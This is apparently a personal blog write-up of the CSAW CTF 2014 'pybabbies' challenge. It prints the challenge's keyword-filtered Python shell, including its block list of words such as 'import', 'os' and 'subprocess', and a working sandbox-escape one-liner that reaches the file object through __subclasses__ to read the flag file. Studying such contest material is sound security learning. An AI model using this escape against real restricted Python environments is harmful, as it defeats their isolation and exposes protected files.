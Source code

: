 ```yaml
---
title: CSAW CTF 2014 -- Exploitation 200 pybabbies
comments: true
tags:
- CTF
- CSAW
- Pwnable
- Python
categories:
- write-ups
date: '2014-09-25 06:32:00 +0000'
---
```


TEST
[CSAW CTF 2014](https://ctf.isis.poly.edu/) is the second CTF contest I've attended ( the first one was the [HITCON CTF 2014](http://ctf2014.hitcon.org/dashboard.html) ) . Since this is the first time **I've actually solved something** in the contest, I decide to post my first own writeup .
<!-- more -->

I've solved 4 challenges in the contest : **Trivia 10 -- We don't know either** , **Exploitation 100 -- bo** , **Exploitation 200 -- pybabbies** and **Expoitation 400 -- saturn**. **We don't know either** & **bo** are easy, so I won't post their writeups. This writeup is for the **Exploitation 200 -- pybabbies**.

The challenge gave us a python script call **pyshell.py**. After we take a good look at it, we'll know that this is a self-made python shell.

```python
#!/usr/bin/env python 

from __future__ import print_function

print("Welcome to my Python sandbox! Enter commands below!")

banned = [
    "import",
    "exec",
    "eval",
    "pickle",
    "os",
    "subprocess",
    "kevin sucks",
    "input",
    "banned",
    "cry sum more",
    "sys"
]

targets = __builtins__.__dict__.keys()
targets.remove('raw_input')
targets.remove('print')
for x in targets:
    del __builtins__.__dict__[x]

while 1:
    print(">>>", end=' ')
    data = raw_input()

    for no in banned:
        if no.lower() in data.lower():
            print("No bueno")
            break
    else: # this means nobreak
        exec data
```

this python shell allow us to send & execute a python command. But unlike the normal one, this python shell banned some strings such as `import`, `os`, `sys`......etc. Moreover, **it delete almost all the reference to an object**, except `raw_input` & `print`.

To put it short, **we can't call any function except** `raw_input` & `print`, **and we can't use** `import`, `os`, `sys`...., **either**. The goal is to print the flag, so we can either use `os.system("cat flag")` or use `f = open("flag", "r").read()` and print it out. But now since it banned us to use those command, we'll have to find a new way to get the flag.

After doing some research on the internet, I found this [link](https://isisblogs.poly.edu/2012/10/26/escaping-python-sandboxes/), which lead us to the right direction. Although in script they delete the reference to an object, we can still use `().__class__.__bases__[0].__subclasses__()` to get the object directly. By using the method mentioned in the blog, I successfully get the `file` object, which give me the ability to open a file and read it.

So here is the exploitation:
1.  First, we use `().__class__.__bases__[0].__subclasses__()[40]` as the `file` object to read the flag into a variable
2.  Simply print out the variable to get the flag
    
we'll have to guess the filename of the flag, which is "key", so the actual progress will be like this:

```
Welcome to my Python sandbox! Enter commands below!
>>> a = ().__class__.__bases__[0].__subclasses__()[40]("./key").read()
>>> print(a)
flag{definitely_not_intro_python}

>>>
```


reference: [Escaping Python Sandboxes](https://isisblogs.poly.edu/2012/10/26/escaping-python-sandboxes/)
